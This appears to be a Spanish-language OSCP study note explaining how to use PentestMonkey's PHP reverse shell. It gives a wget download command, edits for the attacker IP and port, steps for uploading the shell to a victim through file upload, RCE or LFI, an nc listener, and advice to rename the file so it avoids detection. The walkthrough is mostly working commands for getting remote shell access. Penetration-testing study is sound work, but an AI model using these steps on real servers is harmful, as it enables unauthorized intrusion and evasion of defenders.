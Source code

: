 `php-reverse-shell.php` es un script clásico de PentestMonkey que te da una shell reversa cuando se ejecuta desde un servidor web vulnerable (por ejemplo, subida de archivos sin validación). En OSCP es útil cuando consigues ejecutar código en un entorno web PHP.

---

## Obtención del Script

Descargar desde el repositorio oficial:
```bash
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```

---

## Edición del Script

Abre el archivo y edita estas líneas:
```php
$ip = '10.11.0.1';  // tu IP atacante
$port = 4444;       // puerto donde escucharás
```

Guarda los cambios.

---

## Subida y ejecución

1. Sube el archivo a la víctima (por panel vulnerable, RCE, LFI, etc.)
2. Accede a la ruta web del archivo:
```
http://<victima>/uploads/php-reverse-shell.php
```

---

## Escuchar desde Kali

```bash
rlwrap nc -lvnp 4444
```

Cuando accedas a la URL, la shell se conectará a tu listener y obtendrás acceso remoto.

---

## Casos de Uso OSCP

- Vulnerabilidades de subida de ficheros
- Webshells que permiten ejecución
- LFI + log poisoning (si logueas la shell y luego haces LFI sobre el log)

---

## Buenas Prácticas

- Renombra el archivo tras la subida para evitar detección (`report.php`, `config.php`, etc.)
- Usa `rlwrap` para tener historial y edición de línea
- Combina con estabilización (`python -c`, `script -c`, etc.) tras obtener acceso

---
